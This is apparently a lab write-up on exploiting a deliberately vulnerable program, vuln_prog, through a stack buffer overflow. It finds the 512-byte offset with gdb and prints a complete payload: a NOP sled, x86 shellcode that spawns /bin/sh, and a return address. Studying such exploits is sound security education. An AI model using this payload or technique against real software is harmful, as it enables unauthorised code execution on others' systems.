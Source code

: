 ## Simple Buffer Overflow

The objective here was to exploit a very simple buffer overflow in the program called vuln_prog.

First, I have run vuln_prog with gdb using the command: gdb vuln_prog

The size of the buffer in the program is 500 bytes. So we can try printing A's and try to fill up the buffer. We can use python or perl script. Run the following command in gdb.
```
run $(python -c "print('A'*500)")
```
The program exits normally. We now increment the A's and see if there is any variation in the output. At 508 A's we get a segmentation fault. While incrementing the number of A's and testing with gdb, we can confirm that the return address starts when we fill with 512 A's.

The next step is to place a working shell code in the buffer. First, test the shellcode to check if it works before placing it in the buffer. Next, we insert the NOP sled to solve the problem of finding the exact address of the buffer, as it increases the size of our target area. Our shell code is 45 bytes, so the rest of the 467 bytes (512 bytes, where the return address starts - 45 bytes, which is the size of shellcode) can be NOP (\x90), to fill up the buffer. Finally, we need to add the return address to our payload.
Any memory address in the NOP can be chosen as the return address and added to payload, in little endian format.

The final payload:
```
$(python -c 'print "\x90"*467 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0""\x88\x46\x07\x89\x46\x0c\xb0\x0b""\x89\xf3\x8d\x4e\x08\x8d\x56\x0c""\xcd\x80\x31\xdb\x89\xd8\x40\xcd""\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x58\xd9\xff\xff"')
```
